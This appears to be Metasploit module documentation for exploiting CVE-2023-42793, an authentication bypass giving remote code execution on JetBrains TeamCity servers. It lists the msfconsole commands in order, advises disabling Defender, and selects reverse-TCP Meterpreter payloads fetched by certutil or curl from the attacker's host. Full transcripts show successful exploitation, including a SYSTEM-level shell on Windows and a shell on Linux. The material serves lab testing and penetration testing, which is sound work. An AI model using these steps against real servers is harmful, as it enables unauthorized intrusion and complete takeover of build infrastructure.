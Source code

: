 ## Vulnerable Application
This module exploits an authentication bypass vulnerability to achieve unauthenticated remote code execution
against a vulnerable JetBrains TeamCity server. All versions of TeamCity prior to version 2023.05.4 are
vulnerable to this issue. The vulnerability was originally discovered by SonarSource.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1XEEEkGHzt/cve-2023-42793/rapid7-analysis).

## Testing
Download and install a vulnerable version of TeamCity for Windows, version
[2023.05.3](https://download.jetbrains.com/teamcity/TeamCity-2023.05.3.exe). By default the server will listen for HTTP
connections on port 8111.

## Verification Steps
Note: On Windows, disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793`
3. `set RHOST 192.168.86.50`
4. `set RPORT 8111`
5. Set a Target:
    * `set target 0` for Windows.
    * `set target 1` for Linux.
6. Set a suitable command based PAYLOAD:
    * `set PAYLOAD cmd/windows/http/x64/meterpreter/reverse_tcp` for Windows.
    * `set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp` for Linux.
7. Change the FETCH_WRITABLE_DIR if needed:
    * `set FETCH_WRITABLE_DIR %TEMP%` for Windows.
    * `set FETCH_WRITABLE_DIR /tmp` for Linux.
8. `check`
9. `exploit`

## Scenarios

### Windows
```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 8111             yes       The target port (TCP)
   SSL                   false            no        Negotiate SSL/TLS for outgoing connections
   TEAMCITY_ADMIN_ID     1                yes       The ID of an administrator account to authenticate as
   TEAMCITY_RETRY_COUNT  10               yes       The number of times to retry reading the internal.properties file
   TEAMCITY_RETRY_WAIT   3                yes       The number of seconds to wait between retry reading the internal.properties file
   VHOST                                  no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      xwOdwhbLavjs     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RPORT 8111
RPORT => 8111
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > check
[+] 192.168.86.50:8111 - The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.c2ozbE1aYXdTNnhlVlRJRGdEeEU0c2VoQ1Qw.MTlkZjQ2YTktOTc1MS00YzRlLWEwMGEtYzE0ODEyZjZmMzIw
[*] Modifying internal.properties to allow process creation...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Executing payload...
[*] Resetting the internal.properties settings...
[*] Sending stage (200774 bytes) to 192.168.86.50
[*] Deleting the authentication token.
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:51978) at 2023-09-28 12:20:48 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 
```

### Linux
```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > show options

Module options (exploit/multi/http/jetbrains_teamcity_rce_cve_2023_42793):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                192.168.86.43    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 8111             yes       The target port (TCP)
   SSL                   false            no        Negotiate SSL/TLS for outgoing connections
   TEAMCITY_ADMIN_ID     1                yes       The ID of an administrator account to authenticate as
   TEAMCITY_RETRY_COUNT  10               yes       The number of times to retry reading the internal.properties file
   TEAMCITY_RETRY_WAIT   3                yes       The number of seconds to wait between retry reading the internal.properties file
   VHOST                                  no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      zpqZhbbEUzyX     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  /tmp             yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.Y0F2UmpEc01hQzVQRjl3a2V3QWxoZ1pzdlg4.MmRhZTM5OTctY2MxZS00YmExLWIzZmYtOTUxOWZlZTBhNWUw
[*] Modifying internal.properties to allow process creation...
[*] Waiting for config change to be picked up...
[*] Waiting for config change to be picked up...
[*] Executing payload...
[*] Sending stage (3045380 bytes) to 192.168.86.43
[*] Resetting the internal.properties settings...
[*] Deleting the authentication token.
[*] Meterpreter session 8 opened (192.168.86.42:4444 -> 192.168.86.43:50210) at 2023-09-28 14:43:13 +0100

meterpreter > sysinfo
Computer     : 192.168.86.43
OS           : Ubuntu 22.04 (Linux 6.2.0-33-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```